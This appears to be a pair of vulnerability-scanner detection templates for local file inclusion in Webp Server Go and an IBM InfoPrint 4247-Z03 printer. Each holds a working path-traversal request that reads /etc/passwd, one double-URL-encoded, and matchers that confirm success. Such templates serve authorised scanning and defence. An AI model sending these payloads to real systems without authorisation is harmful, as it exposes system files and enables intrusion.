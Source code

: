 # Webp server go - Local File Inclusion

- severity - high
- tags - lfi,webp

## Requests

- Method - GET

### URL

- {{BaseURL}}/%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0

**Type - status**

- status
  1. 200

---

# IBM InfoPrint 4247-Z03 Impact Matrix Printer - Local File Inclusion

## Description

- IBM InfoPrint 4247-Z03 Impact Matrix Printer is subject to local file inclusion.
- severity - high
- tags - matrix,printer,edb,ibm,lfi

## Requests

- Method - GET

### URL

- {{BaseURL}}/./../../../../../../../../../../etc/passwd

### Matchers

**Type - status**

- status
  1. 200
